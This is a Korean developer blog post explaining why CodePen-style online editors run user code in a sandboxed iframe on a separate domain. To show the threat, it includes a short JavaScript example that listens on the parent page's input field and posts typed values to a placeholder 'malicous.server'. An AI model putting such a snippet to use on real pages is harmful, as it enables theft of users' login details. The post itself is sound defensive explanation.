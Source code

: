 ```yaml
---
layout: single
title: '코드 에디터를 위한 iframe 디자인 패턴'
categories: HTML
tag: [HTML, CodePen Project]
---
```


#### 개발 목표

Code Pen이라는 사이트가 있다. - https://codepen.io/
해당 사이트와 같이 코드를 입력하고 번들링하여 실시간으로 결과를 보여주는 사이트를 React를 사용하여 만들고자 한다.

---

#### 코드 입력 창에서 발생할 수 있는 문제점

간단하게 만들 수 있을 것 같았지만 코드를 입력하는 창을 구현하기 위해서는 아래와 같은 이슈사항들이 있었다.

1. 코드 입력창에 오류를 발생시키는 문법 등의 잘못된 코드가 작성될 수 있다.
2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다.
   ex) document.body.innerHTML = '';
3. 사용자가 악의적인 코드를 넣을 수 있다.
   ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

---

#### iframe 사용하여 해결

상기와 같은 문제점을 해결하기 위해서 HTML의 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 여기서 중요한 것은 **JavaScript EC(execution context)가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 문제가 발생하더라도 iframe의 EC에서만 오류가 발생하고, Front App의 EC에는 영향을 주지 않는다. 만약, iframe 내부에서 DOM을 조작하여도 프레임 내부에서만 문제가 발생하는 것이다.

![codepen-flowchart](/assets/images/iframe/js-execution-context.png 'Code Pen 사이트 디자인패턴')

그렇다면 어떻게 사용자가 입력한 코드를 iframe로 넣어 실행할 수 있을까?
'child frame'에서 'parent frame'의 정보를 가져올 때는 'parent' 문법을 사용하면 된다. 크롬 개발자 도구의 'console' 탭에서 'child iframe' 요소를 선택 후 'parent'를 입력하면 'parent frame'의 'Window 객체' 나타나는 것을 확인 할 수 있다. 반대로 'parent frame'에서 'child iframe'의 정보를 가져올 때는 'document.querySelector('iframe').contentWindow' 문법을 사용하면 된다.

추가적으로 알아야할 사항은 iframe이 항상 parent와 child frame의 커뮤니케이션을 허용하는 것은 아니라는 점이다. iframe은 아래와 같은 조건에서만 parent/child가 서로 접근할 수 있다.

-   iframe에 'sandbox' 프로퍼티가 없는 경우
-   sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
-   parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

---

#### parent/child 직접 통신 방식의 문제점 및 해결방법

하지만, parent/child frame이 서로 직접 접근할 수 있으면 많은 문제점이 발생한다. 예를 들어, 해커가 사용자의 코드 입력 창에 아래와 같은 악의적인 코드를 넣을 수 있다. 이를 통해 해커는 'child frame'에서 'parent input element'를 가져올 수 있다. 이후 eventListener를 사용하여 악의적인 서버로 개인 및 로그인 정보를 보낼 수 도 있을 것이다.

```javascript
document.querySelector('input').addEventListener('change', function => {
   axios.post('malicous.server', {
      value: event.target.value
   })
})
```

이외에도 쿠키와 세션 정보 등을 갈취할 수 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child가 직접 통신하는 방식으로 구현하지 않았다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png 'Code Pen 사이트 디자인패턴')

codepen.io 사이트 Flow 흐름 설명

1. 사용자가 코드를 입력하면 'codepen.io' 서버에 코드를 전송한다.
2. codepen.io 서버에서 코드 Transpiling 프로세스가 완료된다.
3. Transpiling된 코드를 Frontend App으로 전송한다.
4. **전송된 코드를 바로 Frontend App에서 실행하는 것이 아니라 iframe을 먼저 Reload 시킨다.** (Reload는 새로고침과 유사)
5. Reload가 될 때, 'copn.io' 서버에 요청하여 iframe에서 보여질 HTML document를 가져온다. 즉, iframe은 다른 도메인을 통해서 로드된다.
6. HTML document 요소를 가져온 뒤, 기존에 Transpiling 프로세스가 완료된 JS 코드를 다시 'cdpn.io'에 보낸 후 돌려받으며 JS 코드를 실행하며 끝난다.

> 사이트에서 코드를 입력하면 개발자 도구 Network 탭에서 통신을 확인할 수 있다.
> ![codepen-flowchart-site](/assets/images/iframe/codepen-flowchart-realsite.png 'Code Pen 사이트 네트워크 탭')

흐름을 살펴보면 Front App과 iframe간의 직접 통신하는 부분이 없다는 것을 알 수 있다. 이는 위에서 설명했듯이 악의적인 코드가 브라우저에서 실행되는 것을 방지하기 위해서이다.

대부분의 '온라인 코딩 툴 사이트'는 위와 같은 구조를 가지고 있다. 하지만 서버를 2개나 사용하고 데이터 흐름도 복잡하다. 쉬운 방법은 없을까? 더 간단한 구현 방법은 다음 포스팅에 작성하도록 하겠다.
